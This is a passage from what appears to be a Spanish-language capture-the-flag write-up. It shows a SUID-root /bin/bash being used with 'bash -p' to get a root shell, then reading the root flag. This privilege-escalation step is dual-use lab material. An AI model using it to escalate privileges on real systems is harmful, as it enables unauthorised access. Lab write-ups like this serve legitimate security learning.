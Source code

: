```
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Vemos que ha funcionado, por lo que vamos a ser `root` de esta forma:

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Y con esto ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
cab882ca726e1f88539bd079dcdae180
```
